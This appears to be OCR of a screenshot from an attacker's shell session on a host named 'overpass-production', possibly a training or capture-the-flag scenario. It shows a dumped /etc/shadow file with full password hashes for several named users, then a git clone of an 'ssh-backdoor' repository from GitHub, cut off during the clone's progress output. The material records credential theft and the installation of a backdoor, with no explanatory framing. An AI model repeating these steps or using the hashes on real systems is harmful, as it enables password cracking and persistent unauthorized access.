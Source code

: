 list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

<git clone https://github.com/NinjaJc01/ssh-backdoor
Cloning into 'ssh-backdoor'...
remote: Enumerating objects: 18, done.        
remote: Counting objects:   5% (1/18)        
remote: Counting objects:  11% (2/18)        
remote: Counting objects:  16% (3/18)        
remote: Counting objects:  22% (4/18)        
remote: Counting objects:  27% (5/18)        
remote: Counting objects:  33% (6/18)        
remote: Counting objects:  38% (7/18)        
remote: Counting objects:  44% (8/18)        
remote: Counting objects:  50% (9/18)        
remote: Counting objects:  55% (10/18)        
remote: Counting objects:  61% (11/18)        
remote: Counting objects:  66% (12/18)        
remote: Counting objects:  72% (13/18)        
remote: Counting objects:  77% (14/18)        
remote: Counting objects:  83% (15/18)        
remote: Counting objects:  88% (16/18)        
remote: Counting objects:  94% (17/18)        
remote: Counting objects: 100% (18/18)        
remote: Counting objects: 100% (18/18), done.        
remote: Compressing objects:   6% (1/15)        
remote: Compressing objects:  13% (2/15)        
remote: Compressing objects:  20% (3/15)        
remote: Compressing objects:  26% (4/15)        
remote: Compressing objects:  33% (5/15)        
remote: Compressing objects:  40% (6/15)        
remote: Compressing objects:  46% (7/15)        
remote: Compressing objects:  53% (8/15)        
remote: Compressing objects:  60% (9/15)        
remote: Compressing objects:  66% (10/15)        
remote: Compressing objects:  73% (11/15)        
remote: Compressing objects:  80% (12/15)        
remote: Compressing objects:  86% (13/15)        
remote: Compressing objects:  93% (14/15)        
remote: Compressing objects: 100% (15/15)        